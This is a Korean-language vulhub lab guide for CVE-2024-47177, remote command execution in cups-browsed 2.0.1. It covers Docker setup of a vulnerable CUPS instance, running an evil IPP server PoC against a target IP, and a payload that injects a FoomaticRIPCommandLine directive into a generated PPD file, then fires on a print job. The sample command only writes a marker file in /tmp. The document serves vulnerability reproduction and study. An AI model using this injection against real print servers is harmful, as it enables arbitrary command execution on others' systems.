



# OpenPrinting Cups-Browsed - FoomaticRIPCommandLine PPD 매개변수를 통한 원격 코드 실행 (CVE-2024-47177)

[Einglish version](https://github.com/vulhub/vulhub/blob/master/cups-browsed/CVE-2024-47177/README.md)
[Chinese version](https://github.com/vulhub/vulhub/blob/master/cups-browsed/CVE-2024-47177/README.zh-cn.md)

OpenPrinting CUPS(Common Unix Printing System)은 유닉스 계열 운영체제를 위해 개발된 오픈 소스 인쇄 시스템이다. CUPS를 이용하면 컴퓨터를 프린터 서버로 작동시켜 로컬 및 네트워크 프린터를 효율적으로 관리할 수 있다. cups-browsed는 CUPS 시스템의 일부인 데몬으로, 네트워크 상 다른 CUPS 서버에서 공유하는 프린터를 자동으로 탐색하고 설정하는 기능을 담당한다. 이를 통해 사용자는 수동 설정 없이도 네트워크 프린터를 쉽게 사용할 수 있다.

cups-browsed 2.0.1 버전 및 그 이전 버전에는, PPD(PostScript Printer Description) 파일 내 `FoomaticRIPCommandLine` 매개변수를 부적절하게 처리하는 문제점이 존재한다. 공격자는 악성 IPP(Internet Printing Protocol) 서버를 구축하여, 취약한 cups-browsed 인스턴스에 조작된 프린터 정보를 전달함으로써 대상 시스템에서 임의 명령어를 실행할 수 있다.

참고 자료 :

- https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/
- https://github.com/OpenPrinting/cups-browsed/security/advisories/GHSA-rj88-6mr5-rcw8

## 취약한 환경 구축

다음 명령어를 실행하여 CUPS 서버 2.4.7 버전과 취약한 cups-browsed 2.0.1을 실행할 수 있다:

```
docker-compose up -d
```

서버가 실행되면, 브라우저를 통해 `http://<your-ip>:631` 주소로 접속해 CUPS 웹 인터페이스에 접근할 수 있다.

## 익스플로잇 방법

먼저, [evil-ipp-server](https://github.com/vulhub/evil-ipp-server) 프로젝트를 다운받고 [poc.py](https://github.com/vulhub/evil-ipp-server/blob/master/poc.py)를 실행한다:

```
python poc.py [evil-ipp-server-ip] [target-ip]
```

이 스크립트는 `[evil-ipp-server-ip]` 주소에서 악성 IPP 서버를 구동하고, IP가 `[target-ip]`인 대상 시스템의 cups-browsed 데몬에 UDP 패킷을 전송한다.

대상 cups-browsed가 요청을 수신하면 악성 IPP 서버에 연결을 시도한다. 이때 IPP 서버는 조작된 `printer-privacy-policy-uri` 속성을 포함해 응답을 보낸다. 페이로드 구조는 다음과 같다:

```python
(
    SectionEnum.printer,
    b'printer-privacy-policy-uri',
    TagEnum.uri
): [b'https://www.google.com/"\n*FoomaticRIPCommandLine: "' +
    b'echo 1 > /tmp/I_AM_VULNERABLE' +
    b'"\n*cupsFilter2 : "application/pdf application/vnd.cups-postscript 0 foomatic-rip'],
```

이후 cups-browsed는 `/tmp/` 디렉토리에 임시 PPD 파일을 생성하는데, 위 페이로드가 이 파일에 주입된다. 아래 스크린샷은 cups-browsed의 관련 로그를 보여준다:



하지만 이 시점에서는 명령어가 아직 실행되지 않았다. 명령어가 실제로 실행되려면, 프린트 작업이 최소 1건 이상 발생해야 한다.

프린트 작업은 일반 사용자 또는 공격자 모두 발생시킬 수 있다. 만약 대상 시스템의 TCP 631번 포트가 열려 있다면, 브라우저를 통해 CUPS 웹 인터페이스에 접속해 악성 IPP 서버로 등록된 프린터를 선택할 수 있다. 그 후, "테스트 페이지 인쇄" 작업을 생성하면 된다 :



이 과정을 완료하면, `echo 1 > /tmp/I_AM_VULNERABLE` 명령어가 정상적으로 실행되어 /tmp/ 디렉토리에 I_AM_VULNERABLE 파일이 생성된다.


